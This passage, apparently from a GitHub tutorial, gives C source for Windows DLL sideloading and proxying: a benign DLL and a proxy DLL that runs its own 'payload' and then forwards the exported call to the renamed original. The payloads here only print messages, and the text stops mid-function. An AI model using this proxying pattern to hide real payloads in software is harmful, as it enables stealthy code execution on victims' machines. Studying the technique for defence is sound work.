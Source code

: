 ## Dll_Legit

```c
#include <windows.h>

#define DLLEXPORT extern __declspec(dllexport)

DLLEXPORT PCHAR RetStr(){
    PCHAR  LegitStr = "[I] Run Legit Print :D\n";
    return LegitStr;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
        printf("[I] Attach Legit DLL\n");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Dll_Legit only performs prints, one when the Dll is Attached to a process and another when the exported function is used by our Custom Software.

---------------------------

## Dll_Mal_NoFoward

```c
#include <windows.h>

/*---------------------------[ Payload ]---------------------------*/

void ProcAtt(){

	printf("[I] DLL Sideloading in PROCESS ATTACH >:)\n");

}

void InFuncExp(){

	printf("[I] DLL Sideloading in Exported Function >:)\n");
	
}

/*---------------------------[ DLL Proxying ]---------------------------*/

#define DLLEXPORT extern __declspec(dllexport)

typedef PCHAR (WINAPI* fnRetStr)();

DLLEXPORT PVOID RetStr(){
    
    InFuncExp();

    HMODULE  hDll    = LoadLibraryA("Dll_Legit1.dll");
    fnRetStr pRetStr = (fnRetStr)GetProcAddress( hDll, "RetStr" );

    return (PVOID)pRetStr();
```